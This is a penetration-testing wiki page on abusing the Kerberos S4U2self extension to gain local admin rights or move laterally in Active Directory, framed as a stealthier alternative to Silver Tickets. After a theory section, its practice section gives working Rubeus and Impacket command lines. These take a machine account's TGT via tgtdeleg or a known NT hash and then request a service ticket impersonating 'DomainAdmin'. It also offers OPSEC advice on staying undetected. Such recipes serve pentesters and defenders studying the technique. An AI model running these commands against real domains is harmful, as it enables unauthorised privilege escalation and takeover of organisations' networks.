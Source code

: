 # S4U2self abuse

## Theory

The following recipe shows how to abuse S4U2self for Local Privilege Escalation, or for stealthier alternative to Silver Ticket. There are also other tricks based on S4U2self, using u2u (user-to-user) as well: [#s4u2self-+-u2u](../#s4u2self-+-u2u "mention").

### Delegation and extensions

Kerberos delegations allow services to access other services on behalf of domain users.

The "Kerberos" authentication protocol features delegation capabilities explained [here](./). Kerberos delegations can be abused by attackers to obtain access to valuable assets and sometimes even escalate to domain admin privileges. Regarding [constrained delegations](constrained.md) and [rbcd](rbcd.md), those types of delegation rely on **Kerberos extensions called** [**S4U2Self and S4U2Proxy**](../#service-for-user-extensions).

Simply put, **Service for User to Self (S4U2self)** allows a service to obtain a Service Ticket, on behalf of a user (called "principal"), to itself.

Last but not least, S4U2self can be used to produce a Service Ticket to oneself on behalf of another domain user, **even if that user is "sensitive for delegation" or member of the Protected Users group**. Consequently, this allows attackers, in very specific scenarios, to escalate their privileges or perform lateral movements.

### Microsoft Virtual Accounts

Since machine accounts have their own set of SPNs by default at their creation, S4U2self can be used by any machine account, without any supplementary configuration. If an attacker manages to execute code as `NT AUTHORITY\NETWORK SERVICE` or as any other "Microsoft Virtual Account" (e.g. `defaultapppool` or `mssqlservice`) he will be able to escalate his privileges by abusing S4U2self. This happens because this kind of accounts all act on the network as the machine itself.

### OPSEC considerations

The S4U2self abuse is not only a great way to perform Local Privilege Escalation or a lateral move, it's also an way more stealthier alternative to [Silver Tickets](../forged-tickets/silver.md) when an attacker has knowledge of a machine account's Kerberos keys. While a Silver Ticket is a Service Ticket featuring a forged PAC, the Service Ticket issued after an S4U2self request will be legitimate and will feature a valid PAC.

## Practice

In order to obtain local admin rights on a target machine, the attackers must be able to execute code on the machine and conduct two major steps: obtain a TGT for the machine account, and use that TGT to make a S4U2self request in order to obtain a Service Ticket as domain admin for the machine.

```powershell
Rubeus.exe tgtdeleg /nowrap
```

### 1. Machine account's TGT

This step revolves around the `tgtdeleg` feature from [Rubeus](https://github.com/GhostPack/Rubeus) which allows an attacker that has code execution on a machine to ask a TGT, which will be the machine account's TGT (cf. [Microsoft Virtual Accounts](s4u2self-abuse.md#microsoft-virtual-accounts)).

```powershell
Rubeus.exe tgtdeleg /nowrap
```

The TGT can then be used with [Pass the Ticket](../ptt.md) for the next step, which can be conducted remotely if needed, unlike this initial step.

Alternatively, if the machine account credentials are known, a TGT can be requested commonly.

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Impacket](https://github.com/SecureAuthCorp/impacket)'s [getTGT.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getTGT.py) (Python) script can be used for that purpose. Howerver, this step is optional if getST.py is to be used later on for the S4U2self request. In this case, with the appropriate arguments, it will request a TGT automatically

```bash
getTGT.py -dc-ip "domaincontroller" -hashes :"NThash" "domain"/"machine$"
```
{% endtab %}

{% tab title="Windows" %}
From Windows machines, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used for that purpose. Howerver, this step is optional if Rubeus is to be used later on for the S4U2sel requestf. In this case, with the appropriate arguments, Rubeus will request a TGT automatically.

```powershell
Rubeus.exe asktgt /nowrap /domain:"domain" /user:"computer$" /rc4:"NThash"
```
{% endtab %}
{% endtabs %}

### 2. Obtain a Service Ticket

The TGT can then be used along with S4U2self to obtain a Service Ticket impersonating another domain user on the machine.&#x20;

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Impacket](https://github.com/SecureAuthCorp/impacket)'s getST.py (Python) script can be used for the purpose. If needed, `.kirbi` files can be converted to `.ccache` (cf. [Pass the Ticket](../ptt.md)).

```bash
export KRB5CCNAME="/path/to/ticket.ccache"
getST.py -self -impersonate "DomainAdmin" -altservice "cifs/machine.domain.local" -k -no-pass -dc-ip "DomainController" "domain.local"/'machine$' 
```
{% endtab %}

{% tab title="Windows" %}
From Windows machines, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used for that purpose.

```powershell
Rubeus.exe s4u /self /nowrap /impersonateuser:"DomainAdmin" /altservice:"cifs/machine.domain.local" /ticket:"base64ticket"
```
{% endtab %}
{% endtabs %}

Once a Service Ticket is received, it can be used with [pass-the-ticket](../ptt.md)/[pass-the-cache](../ptc.md) to obtain access to oneself as the "DomainAdmin" (the user can be changed in the request. Attackers should select a domain user which has local admin rights on the machine).

{% hint style="info" %}
This technique can also be used when receiving TGTs during a [Kerberos Unconstrained Delegation abuse](unconstrained.md) in order to gain local admin privileges over the victims.
{% endhint %}

## Resources

{% embed url="https://exploit.ph/delegate-2-thyself.html" %}

{% embed url="https://exploit.ph/revisiting-delegate-2-thyself.html" %}

{% embed url="https://cyberstoph.org/posts/2021/06/abusing-kerberos-s4u2self-for-local-privilege-escalation" %}
